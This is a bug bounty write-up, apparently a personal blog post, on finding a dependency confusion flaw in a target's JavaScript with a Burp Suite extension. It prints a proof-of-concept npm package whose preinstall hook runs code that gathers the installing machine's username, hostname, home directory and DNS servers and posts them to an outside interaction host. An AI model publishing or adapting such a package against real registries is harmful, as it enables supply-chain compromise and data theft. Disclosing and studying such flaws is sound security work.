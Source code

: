 ```yaml
---
layout: post
title: Remote Code Execution through Dependency Confusion using Burpsuite Extension
date: 2023-08-19 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,RCE] 
---
```



## Introduction

[Dependency Confusion](https://fossa.com/blog/dependency-confusion-understanding-preventing-attacks/) is a security vulnerability that affects software dependencies in the software development process. It occurs when a public package manager installs an internal or private package with the same name as an external public package. An attacker can exploit this vulnerability by uploading a malicious package to the public package repository.

## Discovery

I was testing a bug bounty target when I noticed that the extension [JS-Miner](https://portswigger.net/bappstore/0ab7a94d8e11449daaf0fb387431225b) flagged a dependency issue in the target application. The issue involved a JavaScript file that referenced an organization called **private-progrm-widget/widget1**. However, this organization was not found in the NPM registry. An attacker can create a fake package that is named `private-progrm-widget` and then create a module name `widget1` and upload that to the NPM registry. When the target application tries to install this package, it will actually install the attacker's malicious code.

![JS-miner](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/JS4.png?raw=true)

For the proof of concept, I created the following `index.js` and `package.json` files and published them to [npmjs.com](http://npmjs.com/) under the name **private-progrm-widget/widget module** :


#### index.js

```jsx
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "chehzb52vtc0000bsfaggeze9iwyyyyyb.oast.fun",
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();

```

#### package.json

```json
{
  "name": "@private-progrm-widget/widget",
  "version": "5.0.4",
  "description": "null",
  "main": "index.js",
  "scripts": {
    "test": "echo \\"Error: no test specified\\" && exit 1",
    "preinstall": "node index.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "@private-progrm-widget/widget": "^5.0.4"
  }
}

```

When a user installs this module, it retrieves their username and current working directory. After waiting for a while, the following HTTP calls were logged to my [interact.sh](http://interact.sh/) server, confirming the execution of the `index.js` file.

![Remote%20Code%20Execution%20using%20Dependency%20Confusion%20bbc9d0cfc912465883f0d0f3d55ffa68/Screenshot_2023-05-23_at_5.20.20_PM.png](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/JS2.png?raw=true)

Reference: [https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)